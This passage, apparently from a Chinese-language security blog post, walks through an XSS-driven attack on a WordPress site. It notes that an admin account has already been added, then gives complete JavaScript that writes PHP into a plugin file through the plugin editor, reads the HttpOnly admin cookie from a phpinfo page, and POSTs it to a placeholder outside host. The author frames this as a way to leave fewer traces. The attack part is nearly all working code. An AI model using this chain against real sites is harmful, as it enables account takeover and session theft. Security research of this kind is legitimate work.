```
b = new XMLHttpRequest();
b.open('POST', url+p, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);
```

后台已经被添加了新的管理员账号
[![image.png-8.5kB](http://static.zybuluo.com/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png)](http://static.zybuluo.com/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png)

但即便是我们通过添加新的管理员账号获取了网站的管理员权限，我们还是不可避免的留下了攻击痕迹，但其实我们通过更隐秘的方式获取admin账号的cookie。

还记得上文中提到的php代码执行吗，利用注入页面的phpinfo，我们可以获取httponly的cookie。

[![image.png-34.9kB](http://static.zybuluo.com/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png)](http://static.zybuluo.com/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png)

当然，我们仍然需要构造连接整个攻击过程的js代码。

```
// 写入phpinfo
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/plugin-editor.php?';
q = 'file=hello.php';
s = '<?php phpinfo();?>';

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + /nonce" value="([^"]*?)"/.exec(a.responseText)[1] +
'&newcontent=' + s + '&action=update&file=hello.php';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);

// 请求phpinfo
b.onreadystatechange = function(){
   if (this.readyState == 4) {
      	p_url = url + 'wp-content/plugins/hello.php';

		c = new XMLHttpRequest();
		c.open('GET', p_url, 0);
		c.send();

		sss = /HTTP_COOKIE <\/td><td class="v">[\w=;% \-\+\s]+<\/td/.exec(c.responseText)

		// 将获取到的cookie传出
		var d = new XMLHttpRequest(); 
		d.open('POST', 'http://xxx', true); 
		d.setRequestHeader("Content-type","application/x-www-form-urlencoded");
		d.send('cookie='+sss)
   }
}
```
